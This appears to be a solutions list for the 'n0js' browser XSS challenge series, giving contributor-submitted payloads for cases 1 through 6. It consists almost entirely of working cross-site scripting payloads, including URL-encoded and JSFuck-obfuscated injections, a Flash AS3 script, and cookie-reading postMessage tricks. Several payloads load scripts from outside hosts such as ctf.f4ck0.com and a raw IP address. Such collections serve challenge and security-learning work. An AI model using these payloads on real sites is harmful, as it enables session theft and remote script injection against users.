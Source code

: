 # n0js Challenges

[http://server.n0tr00t.com/n0js/case1.html](http://server.n0tr00t.com/n0js/case1.html)

	#### @Nearg1e [yourneargo@gmail.com]
	- http://server.n0tr00t.com/n0js/case1_writeup.txt

[http://server.n0tr00t.com/n0js/case2.html](http://server.n0tr00t.com/n0js/case2.html)

	#### @fyth
    - case2.html?a=location.hash.substr(1)#setTimeout("hi.eval('prompt(location.href)')",500)
    - case2.html?a=location.hash.substr(1)#navigator.__defineGetter__('userAgent', function(){ return '<svg/onload=prompt(location.href)>'})

	#### @evi1m0

    - case2.html?a=location.hash.substr(1)#var frame = document.createElement('iframe');
      frame.style.display = 'none'; document.body.appendChild(frame);
      function navigator(){} window.navigator = new Proxy(window.frames[0].window.navigator,
      { get: function(n0t){return "<img src=@ onerror=alert(location.href)>";} })
      
	#### 1124696276

    - case2.html?a=location.hash.substr(1)#function createProperty(value){var _value=value;function _get(){return _value}function _set(v){_value=v}return{"get":_get,"set":_set}};
      function makePropertyWritable(objBase,objScopeName,propName,initValue){var newProp,initObj;if(objBase&&objScopeName in objBase&&propName in objBase[objScopeName])
      {if(typeof initValue==="undefined"){initValue=objBase[objScopeName][propName]}
	  newProp=createProperty(initValue);try{Object.defineProperty(objBase[objScopeName],propName,newProp)}
      catch(e){initObj={};initObj[propName]=newProp;
      try{objBase[objScopeName]=Object.create(objBase[objScopeName],initObj)}catch(e){}}}};
      makePropertyWritable(window,"navigator","userAgent");
      window.navigator.userAgent="<script>prompt(location.href)</script>";
    
	#### @gaoheby
	- case2.html?a=window.location.hash.substring(1)#Object.defineProperty(navigator,'userAgent',
	  {get:function(){return '<script>prompt(location.href)</script>';}})
    
	#### Cnlouds
	- case2.html?test=location.hash.substr(1)#window.addEventListener('load', function(){window.hi.prompt(hi.location.href)});

	#### kaotudou [jianshu.com/p/eb22e86635e0]
	- case2.html?1=eval((window.location.search.substring(49)));
      =var/**/script=document.createElement`script`;script.src=`https://
      ctf.f4ck0.com/1.js`;document.body.appendChild(script);

[http://server.n0tr00t.com/n0js/case3.php](http://server.n0tr00t.com/n0js/case3.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case3.php?2017=%3Cobject%20allowscriptaccess=always%3E%20%3Cparam%20name=url%20value=http://tangzi.info:43992/payload/n0js_case3.swf%3E
	- AS3 Script:
	    package {
	        import flash.*;
	        import flash.net.*;
	
	        public class XSS {
	
	            public function XSS():void{
	            }
	            public static function main():void{
	                Lib.getURL(new URLRequest("javascript:a=document.createElement('iframe');a.src='https://www.n0tr00t.com/static/test/helloevent.html';document.body.appendChild(a);setTimeout(function(){window.frames[0].postMessage('<img src=1 onerror=prompt(document.cookie)>','*')},3000);"), "_top");
	            }
	
	        }
	    }
	    
	#### daocaoren [jkme.github.io/n0js-case3.html]
	- case3.php?2017=%3Csvg%3E%3Cset+href%3d%23script+attributeName%3dhref+to%3ddata%3a%2cs%3ddocument.createElement(%22script%22)
	  %3bs.src%3d%22http%3a%2f%2f45.32.138.203%2f2.js%22%3bdocument.body.appendChild(s)%3b+%2f%3E%3Cscript+id%3dscript+src%3dfoo%3E%3C%2fscript%3E+
	- jssource:
	    var t = document.createElement("iframe");
	    t.setAttribute("src","https://www.n0tr00t.com/static/test/helloevent.html");
	    document.body.appendChild(t);
	
	    function a(){
	        var b = document.createElement("button");
	        b.setAttribute("onclick","frames[0].postMessage('<img src=x onerror=alert(document.cookie)>','*')");
	        b.click();
	    }
	    //setTimeout("a()",3000);
	    window.onload = a();
	    
[http://server.n0tr00t.com/n0js/case4.php](http://server.n0tr00t.com/n0js/case4.php)
	
	#### @woto [woto3679@gmail.com]
	- case4.php?x=d=document;D=Document.prototype;D.appendChild.call(d.body,(D.createElement.call(d,%22iframe%22))).contentWindow.prompt.call(window,location);
	
	#### @evi1m0 [evi1m0.bat@gmail.com]
	- case4.php?x=document.writeln(%27%3Ciframe%3E%27);frames[0].prompt(location)

	#### @Nearg1e [yourneargo@gmail.com]
	- case4.php?x=document.writeln(%22%3Ciframe%3E%3C/iframe%3E%22);let%20f=document.querySelector(%27iframe%27);f.contentWindow.prompt(location);
	
	#### @math1as [ma7h1as.l@gmail.com]
	- case4.php?x=document.body.innerHTML=%27%3Ciframe%20id=%22a%22%20/%3E%27;a.contentWindow.prompt(location)

[http://server.n0tr00t.com/n0js/case5.php](http://server.n0tr00t.com/n0js/case5.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case5.php?x=<script type="text/javascript" src=case5-time.php?callback=[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]][([][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]])[%252B!%252B[]%252B[%252B[]]]%252B([][[]]%252B[])[%252B!%252B[]]%252B(![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[%252B!%252B[]]%252B([][[]]%252B[])[%252B[]]%252B([][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]])[%252B!%252B[]%252B[%252B[]]]%252B(!![]%252B[])[%252B!%252B[]]]((![]%252B[])[%252B!%252B[]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B'(1)')()>

	#### fubb[at]unseen.is
	- case5.php?x=%3Cscript%20src=%27case5-time.php?callback=[][%22%5C155%5C141%5C160%22][%22%5C143%5C157%5C156%5C163%5C164%5C162%5C165%5C143%5C164%5C157%5C162%22](%22%5C141%5C154%5C145%5C162%5C164%5C50%5C61%5C51%22)%27%3E

[http://server.n0tr00t.com/n0js/case6.php](http://server.n0tr00t.com/n0js/case6.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case6.php?x=*/1%3C/script%3E%3Cscript%3E/*prompt(1);function%20lt(){};//

[http://server.n0tr00t.com/n0js/case7.php](http://server.n0tr00t.com/n0js/case7.php)
